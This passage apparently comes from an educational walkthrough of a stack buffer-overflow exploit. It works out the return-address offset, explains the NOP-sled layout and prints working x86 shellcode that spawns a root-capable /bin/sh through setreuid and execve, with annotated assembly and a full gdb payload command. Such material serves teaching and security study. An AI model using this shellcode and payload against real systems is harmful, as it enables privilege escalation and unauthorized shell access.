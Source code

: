     - When the payload length becomes 141, we start overwriting the return address with `0x41` from right to left as shown in blue. When it becomes 144, we completely overwrite return address.

      ![image-20250410044852081](https://i.imgur.com/mEulAye.png)

12. Exploit should be in the format `[NOP]...[NOP][EXPLOIT][RET]...[RET]`

    - `NOP = '\x90'` is like the `pass` instructions in Python (does nothing and moves on).

    - `RET` is the address that should point somewhere in the middle of the `NOP` sled.

      - Overwritten EIP will jump to destined address, then slide to execute the shell.
      - We may repeat it multiple times to increase chance of success in case things move around.

    - `EXPLOIT` is a encoded x86 machine instructions to run a shell (`/bin/sh`)

      ```assembly
      \x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
      ```

      ```assembly
      xor eax, eax          ; 31 c0    (Clear EAX)
      mov al, 0x46          ; b0 46    (Set AL = 70 for setreuid)
      xor ebx, ebx          ; 31 db    (Clear EBX = root)
      xor ecx, ecx          ; 31 c9    (Clear ECX)
      int 0x80              ; cd 80    (Syscall: setreuid(0, 0))
      jmp 0x16              ; eb 16    (Jump to "/bin/sh" string)
      pop ebx               ; 5b       (Load "/bin/sh" address into EBX)
      mov [ebx+7], al       ; 88 43 07 (Null-terminate the string)
      mov [ebx+8], ebx      ; 89 5b 08 (Argv[0] = "/bin/sh" address)
      mov [ebx+12], eax     ; 89 43 0c (Argv[1] = NULL)
      mov al, 0x0b          ; b0 0b    (Syscall 11 = execve)
      lea ecx, [ebx+8]      ; 8d 4b 08 (ECX = argv)
      lea edx, [ebx+12]     ; 8d 53 0c (EDX = envp)
      int 0x80              ; cd 80    (Syscall: execve("/bin/sh", argv, NULL))
      call 0xffffffeb       ; e8 e5 ff ff ff (Call backward to the "pop ebx")
      .string "/bin/sh"     ; 2f 62 69 6e 2f 73 68 (ASCII for "/bin/sh")
      ```

13. Construct a NOP sled

    - There should be `buffer_size - exploit_length = 128 - 46 = 82` of `NOP` instructions in the exploit.

13. Run the exploit to obtain a shell

    ```bash
    run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90" * 82 + b"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + b"\xa8\xcf\xff\xff" * 20)')
    ```

    ![image-20250410034437174](https://i.imgur.com/pyxLYj5.png)

15. To get a root shell, the binary has to have the `setuid` bit
